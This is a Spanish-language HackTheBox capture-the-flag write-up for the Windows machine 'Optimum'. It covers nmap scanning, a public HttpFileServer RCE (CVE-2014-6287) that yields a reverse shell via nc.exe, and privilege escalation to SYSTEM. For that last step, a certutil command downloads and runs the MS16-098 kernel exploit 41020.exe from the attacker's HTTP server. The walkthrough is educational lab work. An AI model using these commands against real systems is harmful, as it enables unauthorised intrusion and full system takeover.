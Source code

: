 ```yaml
---
title: HackTheBox - Optimum
author: cotes
date: 2023-09-14 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Windows, 'HttpFileServer RCE (CVE-2014-6287)', 'Cracking WPA/WPA2 Password']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Optimum/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Optimum Machine Logo
---
```


Máquina Windows de nivel **Easy** de HackThBox.

Técnicas usadas: **HttpFileServer RCE (CVE-2014-6287), Cracking WPA/WPA2 Password**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Optimum/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Optimum/02-versions.png)

    * Al buscar por alguna vulnerabilidad en **HttpFileServer 2.3** llegamos a un [RCE](https://www.exploit-db.com/exploits/39161)

c. Para ejecutar este script, cambiamos las variables 'ip_addr' y 'local_port', además de levantar un servidor http con python en el puerto 80 ofreciendo **nc.exe**

![](/assets/images/HTB/Easy/Optimum/03-rce.png)

> Ejecutamos el script varias veces hasta recibir la **reverse shell**
{: .prompt-tip }

### Escalada de Privilegios 💹

a. Para la escalada de privilegios usaremos [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

* Copiamos el output del comando `systeminfo` en un fichero.
* La base de datos a usar la podemos descargar de [win-exp-suggester](https://github.com/SecWiki/windows-kernel-exploits/tree/master/win-exp-suggester)
* En caso de tener un algún error con el script instalamos `pip install xlrd==1.2.0`


```bash
❯ python2 windows_exploit_suggester.py -i info.txt -d 2017-06-14-mssb.xls

<SNIP>
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important                                                                           
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
<SNIP>
```

b. Descargamos el fichero [41020.exe](https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe) y lo transferimos a la máquina víctima

```bash
❯ python -m http.server 80
--------------------------------------------------------------------------------------------------------
C:\Users\kostas\Documents>certutil.exe -f -urlcache -split "http://10.10.14.18/41020.exe" ".\41020.exe"
```

* Por último, ejecutamos el script y seremos **nt authority\system**

    ```cmd
    C:\Users\kostas\Documents>.\41020.exe                                    
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.

    C:\Users\kostas\Documents>whoami
    nt authority\system
    ```